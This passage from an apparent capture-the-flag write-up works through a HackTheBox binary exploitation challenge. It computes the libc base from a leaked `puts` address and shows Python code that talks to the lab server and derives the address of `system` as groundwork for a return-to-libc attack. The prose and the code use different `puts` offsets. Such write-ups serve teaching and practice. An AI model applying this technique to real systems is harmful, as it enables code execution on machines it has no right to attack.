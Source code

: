 ![libc_sb_second_3](libc_3.png)

Awesome! offsets of everything we look for! so in this leak, the virtual address we have for `puts` was `0x7f53bed07690`, which according to the table above, means that the libc base was at `0x7f53bed07690 - 0x67690 = 0x7f53beca0000`.

Definitely looks like a valid libc base.

Let's enhance the code to use this information to compute the virtual address of `system` and `"/bin/sh"`

```Python
def compute_libc_base_from_puts(puts_va):
    # remote machine uses libc v2.23
    puts_offset_in_libc = 0x6f690
    return puts_va - puts_offset_in_libc

def remote(data):
    remote_address = (("docker.hackthebox.eu",35034))
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    print "connecting to ", remote_address
    conn.connect(remote_address)

    # server's initial message: "ROP ME outside..."
    print conn.recv(1024)

    print "connected. sending data"
    conn.send(bytes(data + "\n"))


    ans = conn.recv(1024)    
    ans = ans[:-1]  # omit the 0a
    ans = ans[::-1]  # reverse the order

    print "Virtual address of puts is: 0x" + binascii.hexlify(ans)

    libc_base = compute_libc_base_from_puts(int(binascii.hexlify(ans), 16))
    print "Base of libc:", hex(libc_base)
    print "Address of system: ", hex(libc_base + 0x45390)
```

[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me